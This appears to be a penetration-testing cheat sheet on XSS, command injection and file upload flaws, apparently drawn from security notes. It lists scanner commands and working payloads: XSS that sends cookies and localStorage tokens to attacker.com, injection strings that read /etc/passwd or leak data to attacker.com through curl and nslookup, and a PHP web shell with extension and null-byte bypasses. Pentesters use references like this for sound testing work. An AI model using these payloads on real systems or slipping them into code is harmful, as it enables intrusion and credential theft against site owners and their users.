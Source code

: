 ## **XSS**
*Present when: User input reflected in HTML without proper encoding*
Also see [Cross-Site Scripting (XSS)](../../🌐%20Web%20Application/Injections/Cross-Site%20Scripting%20(XSS).md)
**Manual:** Insert `<script>alert(1)</script>` in all inputs, check response
**Automated:**
```bash
xsser --url="target.com/search?q=" -p
nuclei -u target.com -t xss/
dalfox url target.com
```

**Exploit:**
```html
<script>alert(document.cookie)</script>
<img src=x onerror=fetch('//attacker.com/'+document.cookie)>
<svg onload=location='//attacker.com/?'+localStorage.getItem('token')>
```

## **COMMAND INJECTION**
*Present when: User input passed to system commands without sanitization*
Also see: [Command Injection](../../🌐%20Web%20Application/Injections/Command%20Injection.md)
**Manual:** Test with `;`, `&&`, `|` followed by commands like `whoami`
**Automated:**
```bash
commix --url="target.com/ping?host=127.0.0.1"
nuclei -u target.com -t command-injection/
```

**Exploit:**
```bash
; whoami
&& id
| cat /etc/passwd
`curl attacker.com/$(whoami)`
$(nslookup whoami.attacker.com)
```

## **FILE UPLOAD**
*Present when: File uploads lack proper validation and execution prevention*
Also see: [Insecure File Uploads](../../🌐%20Web%20Application/Insecure%20File%20Uploads.md)
**Manual:** Upload various file types, check execution in upload directory
**Automated:**
```bash
fuxploider --url target.com/upload
nuclei -u target.com -t file-upload/
```

**Exploit:**
```php
# Shell upload
shell.php: <?php system($_GET['cmd']); ?>

# Bypass techniques
shell.php%00.jpg
shell.Php
shell.phtml
GIF89a;<?php system($_GET['cmd']);?>
```
